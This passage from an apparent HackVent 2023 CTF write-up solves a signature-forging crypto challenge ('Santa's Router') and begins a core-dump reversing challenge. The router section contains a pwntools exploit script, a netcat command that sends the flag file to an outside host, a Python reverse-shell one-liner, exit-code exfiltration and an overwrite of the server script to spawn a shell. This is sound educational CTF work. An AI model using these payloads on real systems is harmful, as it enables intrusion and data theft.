    oxdf@hacky$ python solve.py 
    predicted number: 3500890921
    actual number:    3500890921
    time taken : 6.092571258544922
    HV23{s33d_r3c0very_1s_34sy}
    

**Flag:`HV23{s33d_r3c0very_1s_34sy}`**

## HV23.13

### Challenge

 | HV23.13 Santa's Router  
---|---  
Categories: |  CRYPTO   
Level: | medium  
Author: |  Fabi_07   
  
> Santa came across a weird service that provides something with signatures of
> a firmware. He isn’t really comfortable with all that crypto stuff, can you
> help him with this?
>
> Please note that the Hacking-Lab VPN is not necessary to solve the challenge
> (depends on your exploit).
>
> Start the service, exploit it and get the flag!

The challenge comes with a spawnable Docker as well as a download.

### Enumeration

#### Service

I’ll spawn the docker and it provides an IP and port (which is always 1337).
On connecting, it offers a prompt:

    
    
    oxdf@hacky$ nc 152.96.15.2 1337
    Welcome to Santa's secure router
    
    santa@router:~$
    

The terminal has a very limited number of commands:

    
    
    santa@router:~$ ls
    Command not found, use help to list all awailable commands.
    
    santa@router:~$ help
    
    help - displays this menu
    version - displays the current version of the firmware
    update - updates the firmware with the provided signed zip file
    exit - exit this shell
    

`version` shows the version and signature:

    
    
    santa@router:~$ version
    
    Version 1.3.3.7, Signature: w3wH3CuQ7tgNFVNz70g0JsN6hpnJil8I7g5wAyl6sr5esqTtqnMlv1Ln9XTq6BY7r9ZhT67BKNphlIyjitnAMT8VrNcGxtQd4ualurog4f2eSElSezW2mKA7wbkXjx1Mqo16ljjQK2QBh59UMRZaPJbG1yE7QWcuEf21rEO8yLXy+hb04Q1Uw/kKYTbGJYo2I4WbKKayhWFpEQbyOn0TzGV8K/9Xdj1KZQGPQXbNsCktIkU8M7SoM4PaeEt2I8GvaYsXVRetE1Z9ijzs9BvftaiawI6UNVt9fMdxUA/bTwir43RgVfeRcvpCW8D8p1BhrjIfmLNfdOvYYeiyFhdHwA==
    

`update` prompts for a base64-encoded zip file and it’s signature:

    
    
    santa@router:~$ update
    Please provide a base64 encoded zip file:
     > test
    Please provide a valide pkcs1_15 signature for the zip file:
     > test
    Signature is invalid
    

`exit` exits.

#### Source

The code has four files:

    
    
    oxdf@hacky$ unzip -l santas-router-source.zip 
    Archive:  santas-router-source.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         2840  2023-12-12 22:26   chall.py
          199  2023-12-12 21:26   Dockerfile
          179  2023-11-17 20:59   firmware.zip
           15  2023-12-12 22:25   flag
    ---------                     -------
         3233                     4 files
    

The flag is fake. The `Dockerfile` shows that it runs out of `/app`, and that
it’s hosted with `socat`, which means each time I connect I get a different
Python process.

    
    
    FROM alpine:latest
    
    RUN apk update
    RUN apk add socat python3 py3-pycryptodome curl
    
    WORKDIR /app
    COPY firmware.zip chall.py flag .
    
    ENTRYPOINT socat tcp-l:1337,reuseaddr,fork EXEC:"python3 chall.py"
    

It’s also running Apline Linux, so no Bash, but yes `python3` and `curl`.

`firmware.zip` has a single file, `start.sh`:

    
    
    oxdf@hacky$ unzip -l firmware.zip 
    Archive:  firmware.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           29  2023-11-17 20:59   start.sh
    ---------                     -------
           29                     1 file
    

`start.sh` just has a single line, `echo "Nothing to see here..."`.

`chall.py` has the server. At the top, it generates an RSA key:

    
    
    KEY = RSA.generate(2048)
    

Because this is generated on each run, it will change for each connection.
Then it defines four functions, calculates the signature of the current
`firmware.zip`, and prints the welcome message :

    
    
    def hashFile(fileContent:bytes) -> int:
        ...[snip]...
    
    def verifySignature(fileContent:bytes, signatureEncoded:str) -> bool:
        ...[snip]...
        
    def fileSignature(fileContent:bytes):
        ...[snip]...
    
    def verifyAndExtractZipFile(fileContentEncoded:str, signature:str):
        ...[snip]...
        
    with open('firmware.zip', 'rb') as f:
        SIGNATURE = fileSignature(f.read())
    
    print(f"\033[1mWelcome to Santa's secure router\033[0m\n")
    

Finally, it enters a `while true` loop offering the prompt and handling the
commands matching what I observed above:

    
    
    while True:
        command = input(f"\x1b[32msanta@router\x1b[0m:\x1b[34m~\x1b[0m$ ")
        if command.startswith('help'):
            print(f'''
    help - displays this menu
    version - displays the current version of the firmware
    update - updates the firmware with the provided signed zip file
    exit - exit this shell
    ''')
        elif command.startswith('version'):
            
            print(f'''
    Version 1.3.3.7, Signature: {SIGNATURE.decode()}
    ''')
        elif command.startswith('update'):
            zipFile = input('''Please provide a base64 encoded zip file:
     > ''')
            signature = input('''Please provide a valide pkcs1_15 signature for the zip file:
     > ''')
            verifyAndExtractZipFile(zipFile, signature)
        elif command.startswith('exit'):
            exit(0)
        else:
            print('''Command not found, use help to list all awailable commands.
    '''
    

The interesting call is `verifyAndExtractZipFile`. This function base64
decodes the input, and then passes that to `verifySignatre` along with the
given signature. If that passes, it extracts the files in the zip to
`./www/root/`, and calls the `start.sh` file as:

    
    
        p = subprocess.Popen(['/bin/sh', filePath], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        print(f'Update exited with statuscode {p.wait()}')
    

The functions do basically what they say they will do. `hashFile` uses a
custom hash algorithm to generate an eight-byte hash:

    
    
    def hashFile(fileContent:bytes) -> int:
        hash = 0
        for i in range(0, len(fileContent), 8):
            hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
        return hash
    

`fileSignature` uses that hash, SHA1 hashes that, and uses PKCS#1 v1.5 to sign
it using the unknown key:

    
    
    def fileSignature(fileContent:bytes):
        hash = hashFile(fileContent)
        signature = pkcs1_15.new(KEY).sign(SHA1.new(hex(hash).encode()))
        return base64.b64encode(signature)
    

`verifySignature` does just that:

    
    
    def verifySignature(fileContent:bytes, signatureEncoded:str) -> bool:
        signature = base64.b64decode(signatureEncoded)
        hash = hashFile(fileContent)
        try:
            pkcs1_15.new(KEY).verify(SHA1.new(hex(hash).encode()), signature)
            return True
        except ValueError:
            return False
    

### Hash Issues

#### Algorithm Detail

The issue here is in the hashing algorithm. It starts by setting `hash` to 0.
Then it loops over the content eight bytes at a time:

    
    
        for i in range(0, len(fileContent), 8):
            hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    

For each byte (0-7) in position `j`, it shifts it left by `8*j` bits, creating
an eight-byte value reversing the byte order. And then it XORs that with the
`hash` value so far, and continues.

#### Strategy

The attack here is that it is very easy to append eigh bytes to any file and
make the hash whatever I want. That means if I have a valid hash / signature
pair, I can craft new files with the same hash and therefore the same
signature.

Zip files are very tolerant to extra data on the end, so that part is easy.

#### Verify Known Good

Much of this strategy relies on my being able to have a known valid hash /
signature pair for a file. I’ll try to submit the given firmware. I’ll base64
encode the given `firmware.zip`:

    
    
    oxdf@hacky$ base64 -w 0 firmware.zip 
    UEsDBAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIAAAAc3RhcnQuc2hlY2hvICJOb3RoaW5nIHRvIHNlZSBoZXJlLi4uIlBLAQIfAAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIACQAAAAAAAAAIAAAAAAAAABzdGFydC5zaAoAIAAAAAAAAQAYAKiwYIWQGdoBqLBghZAZ2gH2AIP5iBnaAVBLBQYAAAAAAQABAFoAAABDAAAAAAA=
    

I’ll submit that to the challenge, after getting the signature so I can send
that back as well. If the current `firmware.zip` on the docker is the same as
the one I have, then this should work:

    
    
    oxdf@hacky$ nc 152.96.15.2 1337
    Welcome to Santa's secure router
    
    santa@router:~$ version
    
    Version 1.3.3.7, Signature: GJbEKuQ7QyeK7XYsALtN03ynPX/PbutKLCA99l35RsS7Fq1qdk/VKt9uB5tBqUk229cN6MnxbZO65KrojVJTQ5A+5iqomz4dNc6PTNIAOoqJ1PtqL3u1yqkaFl8gXu8eaKjnhbIYRpWhdf2c/DV/Xd1qyXD5iVzrk2dnlv5CHsvT10oe4lj878ycc7Yia4z9DM6vKiNLtB/MN7A7LHv/xFCFuXAeQDpjtKbPtMQU0FODibsJJCHlPErjgevZG73ZPFpMJa+g/p2Lc9zKAav0Vb60pCmjC8/K8Kr+rSFMcqAR/82OCS1SNuHE1VH1xH4Sq6QpMwpCAuv6Yy4B2z/ZKA==
    
    santa@router:~$ update
    Please provide a base64 encoded zip file:
     > UEsDBAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIAAAAc3RhcnQuc2hlY2hvICJOb3RoaW5nIHRvIHNlZSBoZXJlLi4uIlBLAQIfAAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIACQAAAAAAAAAIAAAAAAAAABzdGFydC5zaAoAIAAAAAAAAQAYAKiwYIWQGdoBqLBghZAZ2gH2AIP5iBnaAVBLBQYAAAAAAQABAFoAAABDAAAAAAA=
    Please provide a valide pkcs1_15 signature for the zip file:
     > GJbEKuQ7QyeK7XYsALtN03ynPX/PbutKLCA99l35RsS7Fq1qdk/VKt9uB5tBqUk229cN6MnxbZO65KrojVJTQ5A+5iqomz4dNc6PTNIAOoqJ1PtqL3u1yqkaFl8gXu8eaKjnhbIYRpWhdf2c/DV/Xd1qyXD5iVzrk2dnlv5CHsvT10oe4lj878ycc7Yia4z9DM6vKiNLtB/MN7A7LHv/xFCFuXAeQDpjtKbPtMQU0FODibsJJCHlPErjgevZG73ZPFpMJa+g/p2Lc9zKAav0Vb60pCmjC8/K8Kr+rSFMcqAR/82OCS1SNuHE1VH1xH4Sq6QpMwpCAuv6Yy4B2z/ZKA==
    Update exited with statuscode 0
    

It seems it does. It ran the script and exited with statuscode 0.

#### Get Good Hash

I’ll add a print line to `hashFile` on my local copy:

    
    
    def hashFile(fileContent:bytes) -> int:
        hash = 0
        for i in range(0, len(fileContent), 8):
            hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
        print(len(fileContent), hash, hex(hash))
        return hash
    

With `firmware.zip` as the original, I’ll run it and exit:

    
    
    oxdf@hacky$ python chall.py 
    179 2222991296195092273 0x1ed9a6ce547e5f31
    Welcome to Santa's secure router
    
    santa@router:~$ exit
    

It’s 179 bytes long, and I get the hash as an int and in hex.

#### Pad Even

Before I start messing with the file, I’d like it to be a round length
divisible by 8. I’ll add five nulls. This _shouldn’t_ change the hash at all.

    
    
    oxdf@hacky$ echo -en "\x00\x00\x00\x00\x00" >> firmware.zip 
    

With `echo`, `-e` tells it to evaluate special characters (like the nulls in
this case), and `-n` makes sure it doesn’t send a newline.

Running the script again shows the longer file, same hash:

    
    
    oxdf@hacky$ python chall.py 
    184 2222991296195092273 0x1ed9a6ce547e5f31
    Welcome to Santa's secure router
    
    santa@router:~$ exit
    

#### Make POC Zip

I’ll make a custom `start.sh`:

    
    
    #!/bin/bash
    
    exit 223
    

This is a proof of concept. If it works, I’ll see an exit code of 223. I’ll
zip it:

    
    
    oxdf@hacky$ rm firmware.zip 
    oxdf@hacky$ zip firmware.zip start.sh 
      adding: start.sh (stored 0%)
    oxdf@hacky$ unzip -l firmware.zip
    Archive:  firmware.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           22  2023-12-13 12:04   start.sh
    ---------                     -------
           22                     1 file
    

I’ll hash it:

    
    
    oxdf@hacky$ python chall.py 
    188 5447773364095896374 0x4b9a6102d7c54b36
    ...[snip]...
    

The hash is completely different, and it’s 188 bytes. I’ll pad that to 192
with nulls and verify the hash doesn’t change:

    
    
    oxdf@hacky$ echo -en "\x00\x00\x00\x00" >> firmware.zip 
    oxdf@hacky$ python chall.py 
    192 5447773364095896374 0x4b9a6102d7c54b36
    ...[snip]...
    

#### Flip Bit

To test my understanding of the hash algorithm, I’ll append seven nulls and a
one to the end:

    
    
    oxdf@hacky$ echo -ne "\x00\x00\x00\x00\x00\x00\x00\x01" >> firmware.zip 
    

By my theory, this should be XORed with the current hash, flipping a single
bit, low bit of the high byte. The hash does just that:

    
    
    oxdf@hacky$ python chall.py 
    200 5375715770057968438 0x4a9a6102d7c54b36
    ...[snip]...
    

The first byte went from 0x4b to 0x4a, and the rest is the same!

#### Valid POC

I can use the padded POC zip’s hash and the target hash to find what data
needs to be appended:

    
    
    oxdf@hacky$ python
    Python 3.11.6 (main, Oct 23 2023, 22:48:54) [GCC 11.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> poc = 5447773364095896374
    >>> target = 2222991296195092273
    >>> poc ^ target
    6143973997860819975
    >>> (poc ^ target).to_bytes(8)[::-1]
    b'\x07\x14\xbb\x83\xcc\xc7CU'
    

I’m reversing the byte order so the hash can flip it back. I’ll add that to
the end of the zip, and when I hash it, it matches:

    
    
    oxdf@hacky$ echo -en '\x07\x14\xbb\x83\xcc\xc7CU' >> firmware.zip 
    oxdf@hacky$ python chall.py 
    200 2222991296195092273 0x1ed9a6ce547e5f31
    ...[snip]...
    

#### Run POC

I’ll get the base64 of the zip file:

    
    
    oxdf@hacky$ base64 -w0 firmware.zip 
    UEsDBAoAAAAAAJFgjVetBbK0FgAAABYAAAAIABwAc3RhcnQuc2hVVAkAAyLkeWUk5HlldXgLAAEEAAAAAATnAwAAIyEvYmluL2Jhc2gKCmV4aXQgMjIzClBLAQIeAwoAAAAAAJFgjVetBbK0FgAAABYAAAAIABgAAAAAAAEAAAD4gQAAAABzdGFydC5zaFVUBQADIuR5ZXV4CwABBAAAAAAE5wMAAFBLBQYAAAAAAQABAE4AAABYAAAAAAAAAAAABxS7g8zHQ1U=oxdf@hacky$ 
    

I’ll connect to the router and get the current version signature. This
signature changes because the key is changing, but the hash is still the same.

    
    
    oxdf@hacky$ nc 152.96.15.6 1337
    Welcome to Santa's secure router
    
    santa@router:~$ version
    
    Version 1.3.3.7, Signature: DBbKFTOakm7evaAfH2V9rANXhWxPg3KmNFxeHxIdM3DDRdI+wZdNU4STbmGQDE/YG/Wx8LLKkdqd9HTnLUUhr/BYvf07rZepyLlyS7RdioPbT0y0r4A353cYjNtFswltXXe8imca59QBSqcXXbJ0rH5oYpS6oufHy1Cp95RpoWjx5ST04yI7rCfQNaqZ1bvig2kijrH72zqAHhv5d3ASvaCE1sNLKFXjXE6cXi8hRUUrn7/USL7oM3BjtHAb7CnMCqgpg6K0Ff5DL51Njni2m9zrWgdbeGqeHwCwwuIlBwQ5CIDleJkhFbf8iUgOQnXoU4kglkL1ZVdbZYg+j8zJdw==
    

Now `update`, and it shows 223:

    
    
    santa@router:~$ update
    Please provide a base64 encoded zip file:
     > UEsDBAoAAAAAAJFgjVetBbK0FgAAABYAAAAIABwAc3RhcnQuc2hVVAkAAyLkeWUk5HlldXgLAAEEAAAAAATnAwAAIyEvYmluL2Jhc2gKCmV4aXQgMjIzClBLAQIeAwoAAAAAAJFgjVetBbK0FgAAABYAAAAIABgAAAAAAAEAAAD4gQAAAABzdGFydC5zaFVUBQADIuR5ZXV4CwABBAAAAAAE5wMAAFBLBQYAAAAAAQABAE4AAABYAAAAAAAAAAAABxS7g8zHQ1U=
    Please provide a valide pkcs1_15 signature for the zip file:
     > DBbKFTOakm7evaAfH2V9rANXhWxPg3KmNFxeHxIdM3DDRdI+wZdNU4STbmGQDE/YG/Wx8LLKkdqd9HTnLUUhr/BYvf07rZepyLlyS7RdioPbT0y0r4A353cYjNtFswltXXe8imca59QBSqcXXbJ0rH5oYpS6oufHy1Cp95RpoWjx5ST04yI7rCfQNaqZ1bvig2kijrH72zqAHhv5d3ASvaCE1sNLKFXjXE6cXi8hRUUrn7/USL7oM3BjtHAb7CnMCqgpg6K0Ff5DL51Njni2m9zrWgdbeGqeHwCwwuIlBwQ5CIDleJkhFbf8iUgOQnXoU4kglkL1ZVdbZYg+j8zJdw==
    Update exited with statuscode 223
    

It ran my code!

### Automate Generation / Upload

Because I’m going to be playing with all sorts of different payloads, I’ll
automate the creation of a zip and uploading it with a Python script. I’ll use
`io` so I don’t have to write files to disk in the process.

I’ll start by importing the necessary libraries and copying the `hashFile`
function from `chall.py`

    
    
    #!/usr/bin/env python3
    
    import base64
    import io
    import zipfile
    from pwn import *
    
    
    def hashFile(fileContent:bytes) -> int:
        hash = 0
        for i in range(0, len(fileContent), 8):
            hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
        return hash
    
    HOST = "152.96.15.2"
    PORT = 1337
    script = """#!/bin/bash
    
    exit 223"""
    

I’ll use `BytesIO` to create a file like object with the contents of my
script, and another to be the zip file. Then `zipfile` will create the zip,
and I can read the bytes and null pad it:

    
    
    script_file = io.BytesIO(script.encode("utf-8"))
    zip_file = io.BytesIO()
    with zipfile.ZipFile(zip_file, 'w', zipfile.ZIP_DEFLATED) as archive:
        archive.writestr('start.sh', script_file.getvalue())
        
    zip_bytes = zip_file.getvalue()
    if len(zip_bytes) % 8 != 0:
        zip_bytes = zip_bytes + b"\x00" * (8 - (len(zip_bytes) % 8))
    success(f"Generated zip file and padded to length {len(zip_bytes)}")
    

I’ll calculate the eight bytes to append to make the hash work, and append it:

    
    
    starting_hash = hashFile(zip_bytes).to_bytes(8)
    target_hash = (2222991296195092273).to_bytes(8)
    append_data = b''.join([(t^p).to_bytes(1) for t, p in zip(target_hash, starting_hash)])[::-1]
    zip_bytes += append_data
    
    assert hashFile(zip_bytes).to_bytes(8) == target_hash
    encoded_zip = base64.b64encode(zip_bytes)
    

When it works, I’ll get the encoded string to give the server.

Then I connect to the server (using
[pwntools](https://docs.pwntools.com/en/latest/#)) and get the signature for
the current version:

    
    
    # connect and send
    conn = remote(HOST, PORT)
    
    conn.recvuntil(b"$ ")
    conn.sendline(b"version")
    version_line = conn.recvuntil(b"$ ")
    signature = version_line.strip().splitlines()[0].split()[-1]
    

Next the `update` command with:

    
    
    conn.sendline(b"update")
    conn.recvuntil(b"> ")
    conn.sendline(encoded_zip)
    conn.recvuntil(b"> ")
    conn.sendline(signature)
    

Now read the result, some light parsing, and print:

    
    
    data = conn.recvuntil(b"$ ").splitlines()[0]
    status_code = int(data.split()[-1])
    success(f"{data.splitlines()[0].decode()} {chr(status_code)}")
    conn.close()
    

When I run this, it gives 223 again:

    
    
    oxdf@hacky$ python solve.py 
    [+] Generated zip file and padded to length 144
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 223 ß
    [*] Closed connection to 152.96.15.2 port 1337
    

### Flag Strategy

There are several ways to get the flag from here. What I don’t get is standard
out or standard error from the run process, only the exit code. So I’ll need
to find another way to exfil the information and/or get a shell.

I’ll show three categories.

### Connect Back [Method #1]

My original solve was to just get a reverse shell. I’ll download the [Hacking
Lab VPN](https://github.com/Hacking-Lab/hl2-openvpn-ost.ch) repo and `sudo
start_openvpn.sh`. This gives my system a `tun0` IP that the container can
talk to. I’ll update my script to send the flag over `nc`:

    
    
    script = """#!/bin/bash
    
    cat /app/flag | nc 10.13.0.30 443"""
    

On running, it works:

    
    
    oxdf@hacky$ nc -nvlp 443
    Listening on 0.0.0.0 443
    Connection received on 152.96.15.2 45119
    HV23{wait_x0r_is_not_a_secure_hash_function}
    

I can go further and get a shell. I can’t use a Bash reverse shell, but a
Python one ([revshells.com](https://www.revshells.com/) Python #1 works well)
will work:

    
    
    script = """#!/bin/bash
    
    export RHOST="10.13.0.46";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
    """
    

When I run this, I get back a connection:

    
    
    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 152.96.15.2 38180
    /app # ^[[24;8R
    

There’s no `script`, but the [standard upgrade
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) using Python instead will
work:

    
    
    /app # ^[[24;8Rpython3 -c 'import pty;pty.spawn("/bin/sh")'
    python3 -c 'import pty;pty.spawn("/bin/sh")'
    /app # ^[[24;8R^Z
    [1]+  Stopped                 nc -lnvp 9001
    oxdf@hacky$ stty raw -echo ; fg
                 reset
    /app # 
    

I’m root and have full access to the container:

    
    
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    

### Exit Codes [Method #2]

The author’s intended way to solve this is via exit code exfil. I already
showed I could control that. I’ll just use that to read the flag byte by byte.
I can get the length of the flag using `wc`:

    
    
    script = f"""#!/bin/bash
    
    val=$(wc -c /app/flag)
    exit $val"""
    

Running this shows it’s 44 bytes:

    
    
    oxdf@hacky$ python solve.py 
    [+] Generated zip file and padded to length 160
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 44 ,
    [*] Closed connection to 152.96.15.2 port 1337
    

ChatGPT suggested this line to get the `nth` byte of a file and get the
ordinal value of it with `od`:

    
    
    script = f"""#!/bin/bash
    
    val=$(od -An -N1 -j$((0)) -t u1 /app/flag)
    exit $val"""
    

When I run that, it gives “H”:

    
    
    oxdf@hacky$ python solve.py 
    [+] Generated zip file and padded to length 184
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 72 H
    [*] Closed connection to 152.96.15.2 port 1337
    

I’ll update the script to include a character number as an arg:

    
    
    charno = sys.argv[1] if len(sys.argv) > 1 else 0
    script = f"""#!/bin/bash
    
    val=$(od -An -N1 -j$(({charno})) -t u1 /app/flag)
    exit $val"""
    

It works nicely:

    
    
    oxdf@hacky$ python solve.py 0
    [+] Generated zip file and padded to length 184
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 72 H
    [*] Closed connection to 152.96.15.2 port 1337
    oxdf@hacky$ python solve.py 1
    [+] Generated zip file and padded to length 184
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 86 V
    [*] Closed connection to 152.96.15.2 port 1337
    oxdf@hacky$ python solve.py 2
    [+] Generated zip file and padded to length 184
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 50 2
    [*] Closed connection to 152.96.15.2 port 1337
    

I can use `grep` and `cut` to isolate the output:

    
    
    oxdf@hacky$ python solve.py 4 | grep statuscode | cut -d
    ' ' -f7
    {
    

Add a Bash loop and a `tr -d '\n'` to get rid of newlines:

    
    
    oxdf@hacky$ for i in {0..43}; do python solve.py $i | grep statuscode | cut -d' ' -f7 | tr -d '\n'; done 
    HV23{wait_x0r_is_not_a_secure_hash_function}
    

### Overwrite chall.py [Method #3]

The most clever method I heard some players using was to just overwrite
`chall.py`. I’ll use this script:

    
    
    script = """#!/bin/bash
    
    echo -e 'with open("/app/flag", "r") as f:\n    print(f.read())' > /app/chall.py"""
    

When I run this, the script listening on the socket is now just going to give
me the output of `flag`:

    
    
    oxdf@hacky$ python solve.py 
    [+] Generated zip file and padded to length 200
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 0 \x00[*] Closed connection to 152.96.15.2 port 1337
    oxdf@hacky$ nc 152.96.15.2 1337
    HV23{wait_x0r_is_not_a_secure_hash_function}
    

This does break my instance, so I’ll have to kill it and get a new one to try
anything else.

I can get a shell from this strategy:

    
    
    script = """#!/bin/bash
    
    echo -e 'import subprocess\n\nsubprocess.run("/bin/sh", shell=True)' > /app/chall.py"""
    

Now when I connect, it simply runs `sh`:

    
    
    oxdf@hacky$ python solve.py 
    [+] Generated zip file and padded to length 200
    [+] Opening connection to 152.96.15.2 on port 1337: Done
    [+] Update exited with statuscode 0 \x00[*] Closed connection to 152.96.15.2 port 1337
    oxdf@hacky$ nc 152.96.15.2 1337
    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    pwd
    /app
    

The discussion of this method did inspire one memory of the HackVent Discord
to show this strategy, brute forcing the IP range of HackingLab dockers
looking for any that spit the flag (hich I found quite amusing):


**Flag:`HV23{wait_x0r_is_not_a_secure_hash_function}`**

## HV23.14

### Challenge

 | HV23.14 Crypto Dump  
---|---  
Categories: |  REVERSE_ENGINEERING  
CRYPTO  
FORENSIC  
Level: | medium  
Author: |  LogicalOverflow   
  
> To keep today’s flag save, Santa encrypted it, but now the elf cannot figure
> out how to decrypt it. The tool just crashes all the time. Can you still
> recover the flag?

### Files

#### Overview

The download is a zip containing two files:

    
    
    oxdf@hacky$ unzip -l crypto-dump.zip 
    Archive:  crypto-dump.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
         6886  2023-11-08 17:58   coredump.zst
        87840  2023-11-08 17:58   flagsave
    ---------                     -------
        94726                     2 files
    

`coredump.zst` is a compressed archive itself:

    
    
    oxdf@hacky$ file coredump.zst 
    coredump.zst: gzip compressed data, was "dump", last modified: Wed Nov  8 16:58:09 2023, from Unix, original size modulo 2^32 196608
    

`file` shows that the original name was `dump`. `7z x coredump.zst` will
produce a file, `dump`.

#### dump

This is a 64-bit coredump file:

    
    
    oxdf@hacky$ file dump 
    dump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from 'flagsave ./flag.enc', real uid: 1000, effective uid: 1000, real gid: 100, effective gid: 100, execfn: '/etc/profiles/per-user/cryptelf/bin/flagsave', platform: 'x86_64'
    

`file` also shows that it was generated by running `flagsave ./flag.enc` from
the `/etc/profiles/per-user/cryptelf/bin/flagsave` directory.

#### flagsave

`flagsave` is a 64-bit linux executable:

    
    
    oxdf@hacky$ file flagsave 
    flagsave: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
    

Running it crashes:

    
    
    oxdf@hacky$ ./flagsave 
    Segmentation fault (core dumped)
    

### flagsave RE

I’ll open the binary in Ghidra. A lot of the reversing involves reading the
code and renaming variables to see how it works. All of the interesting code
takes place in the `main` function.

It first opens `key` and checks the length of the file is 0x20 = 32 (by `seek`
to the end, and then check the position in the file stream):

    
    
      canary = *(long *)(in_FS_OFFSET + 0x28);
      h_key = fopen64("./key","r");
      fseek(h_key,0,SEEK_END);
      len_key = ftell(h_key);
      if (len_key == 0x20) {
          ...[snip]...
      else {
        enc_key = 0xffffffff;
      }
    LAB_00401205:
      if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
        return enc_key;
      }
                        /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    

If it isn’t 32 bytes, it exits. In my case above, running where no file name
`./key` exists, this is what leads to the crash.

Assuming the key is there and 32 bytes, it resets the pointer to read the key
into memory:

    
    
        rewind(h_key);
        fread_unlocked(key_bytes,1,0x20,h_key);
        fclose(h_key);
    

Now it moves to the input file in `argv[1]` (first argument). It gets the
length the same way as the key, uses `malloc` to get memory (on the heap), and
reads the contents into that buffer:

    
    
        h_input_file = fopen64(argv[1],"r");
        fseek(h_input_file,0,SEEK_END);
        len_input_file = ftell(h_input_file);
        rewind(h_input_file);
        input_file_bytes = (void *)malloc(len_input_file);
        fread_unlocked(input_file_bytes,1,len_input_file,h_input_file);
        fclose(h_input_file);
    

Then it creates a buffer on the heap and uses the
`nettle_aes256_set_encrpyt_key` function to initialize the key into that
buffer with the bytes from the `key` file:

    
    
        enc_key = malloc(0xf0);
        nettle_aes256_set_encrypt_key(enc_key,key_bytes);
    

[GNU Nettle](https://en.wikipedia.org/wiki/Nettle_\(cryptographic_library\))
is a cryptographic library. For now, it’s enough to know that it’s using AES
and creating a key structure from the input 32 bytes.

Next there’s a check for `argv[2]` to be “e” or “d” (if neither, it jumps to
exit at `LAB_00401205`):

    
    
        if (*argv[2] == 'd') {
            ...[snip]...
        }
        else {
          if (*argv[2] != 'e') {
            enc_key = 0xfffffffe;
            goto LAB_00401205;
          }
            ...[snip]...
        }
        h_key = fopen64("./out","w");
        fwrite(output_bytes,1,len_output,h_key);
        fclose(h_key);
        enc_key = 0;
      }
    

Either way, it writes `output_bytes` to `out` and zeros out the `enc_key`.

If `argv[2]` is “d”, then it gets an output length 16 bytes less than the
input, gets a heap buffer, and calls `nettle_ctr_crypt` to decrypt the buffer:

    
    
          len_output = len_input_file - 0x10;
          output_bytes = (undefined8 *)malloc(len_output);
          nettle_ctr_crypt(enc_key,nettle_aes256_encrypt,0x10,input_file_bytes,len_output,output_bytes,
                           (long)input_file_bytes + 0x10,h_key);
    

I had a hard time finding any documentation for `nettle_ctr_crypt`. It seems
like it should take `nettle_aes256_decrypt`. I’ll notice it passes
`input_file_bytes` and `input_file_bytes + 0x10`. I think the IV is stored at
the front of the file and that’s the IV and then the encrypted content.

If `argv[2]` is “e”, then it calculates the length to be 0x10 more than the
input bytes. It gets 0x10 bytes from `/dev/random` and uses that as the IV,
which it passes to `nettle_ctr_crypt`:

    
    
          len_output = len_input_file + 0x10;
          output_bytes = (undefined8 *)malloc(len_output);
          iv = (undefined8 *)malloc(0x10);
          h_key = fopen64("/dev/random","r");
          fread_unlocked(iv,1,0x10,h_key);
          fclose(h_key);
          uVar1 = iv[1];
          *output_bytes = *iv;
          output_bytes[1] = uVar1;
          nettle_ctr_crypt(enc_key,nettle_aes256_encrypt,0x10,iv,len_input_file,output_bytes + 2,
                           input_file_bytes);
          free(iv);
    

### Debugging

#### Strategy

I can open the core dump in `gdb` to see what memory was like at the crash,
but before I do, I want to understand where things I care about are. If I can
recover the input file and the key, I can decrypt that file and presumably get
the flag.

#### Without Core

`file` showed that the dump was created running `flagsave ./flag.enc`. I’ll
create a `flag.enc`, as well as a 32 byte key:

    
    
    oxdf@hacky$ echo "HV{this is not really the flag}" > flag.enc
    oxdf@hacky$ echo -n "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD" | wc -c
    32
    oxdf@hacky$ echo -n "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD" > key
    

I’ll load `flagsave` in `gdb` and run with the same arg as the dump file:

    
    
    oxdf@hacky$ gdb -q ./flagsave 
    Reading symbols from ./flagsave...
    (No debugging symbols found in ./flagsave)
    gdb-peda$ r ./flag.enc       
    Starting program: /media/sf_CTFs/hackvent2023/day14/flagsave ./flag.enc
    
    Program received signal SIGSEGV, Segmentation fault.
    

